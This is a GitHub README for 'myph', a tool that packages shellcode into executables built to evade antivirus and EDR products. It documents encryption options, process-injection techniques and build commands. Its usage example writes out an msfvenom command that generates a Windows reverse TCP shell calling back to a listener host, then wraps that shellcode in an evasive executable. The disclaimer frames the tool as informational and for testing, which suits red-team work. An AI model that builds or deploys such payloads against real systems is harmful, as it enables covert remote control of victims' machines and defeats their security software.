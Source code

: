 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes. Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
go install github.com/CMEPW/myph@latest
```

### Usage

```bash
Usage:
  myph [flags]

Flags:
  -r, --arch string          architecture compilation target (default "amd64")
  -e, --encryption encKind   encryption method. (allowed: AES, RSA, XOR) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -o, --os string            OS compilation target (default "windows")
  -f, --out string           output name (default "myph-out")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
  -t, --technique string     shellcode-loading technique (allowed: CRT, CreateThread) (default "CRT")
  -v, --version              version for myph
```

#### Methods

This tool supports few methods for now, but aims to add more as time goes on:
- CreateThread
- CreateRemoteThread

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~

> Altough there is an OS version, Linux or MacOS are not supported yet !


#### Example

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something

# you should find your payload here
file ./something.exe
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~
A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
